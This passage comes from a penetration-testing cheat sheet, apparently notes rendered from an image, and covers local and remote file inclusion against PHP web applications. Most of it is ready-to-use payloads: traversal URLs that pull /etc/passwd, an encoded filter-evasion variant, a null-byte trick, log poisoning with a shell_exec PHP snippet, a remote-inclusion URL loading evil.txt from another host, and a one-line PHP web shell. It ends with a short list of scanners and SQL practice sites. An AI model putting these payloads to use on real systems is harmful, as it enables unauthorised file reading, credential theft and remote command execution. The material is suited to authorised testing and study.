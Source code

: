 - LFI OSX Files:  
      /etc/fstab  
      /etc/master.passwd  
      /etc/resolv.conf  
      /etc/sudoers  
      /etc/sysctl.conf

- LFI - Download passwords file  
      [*http://$ip/index.php?page=/etc/passwd*](about:blank)  
      [*http://$ip/index.php?file=../../../../etc/passwd*](about:blank)

- LFI - Download passwords file with filter evasion  
      [*http://$ip/index.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd*](about:blank)

- Local File Inclusion - In versions of PHP below 5.3 we can
      terminate with null byte  
      GET
      /addguestbook.php?name=Haxor&comment=Merci!&LANG=../../../../../../../windows/system32/drivers/etc/hosts%00

- Contaminating Log Files `<?php echo shell_exec($_GET['cmd']);?>`

- For a Remote File Inclusion look for php code that is not  sanitized and passed to the PHP include function and the php.ini
      file must be configured to allow remote files

      */etc/php5/cgi/php.ini* - "allow_url_fopen" and "allow_url_include" both set to "on"  

      `include($_REQUEST["file"].".php");`

- Remote File Inclusion  

       `http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt`

       `<?php echo shell_exec("ipconfig");?>`

- Simple shell to upload and execute commands

<?php echo system($_REQUEST['cmd']) ?>

- Drupal Scanner

drupscan

- Joomla Scanner

joomscan

### Database Vulnerabilities

- Playing with SQL Syntax
    A great tool I have found for playing with SQL Syntax for a variety of database types (MSSQL Server, MySql, PostGreSql, Oracle) is SQL Fiddle:

    <http://sqlfiddle.com>

    Another site is rextester.com:

    <http://rextester.com/l/mysql_online_compiler>
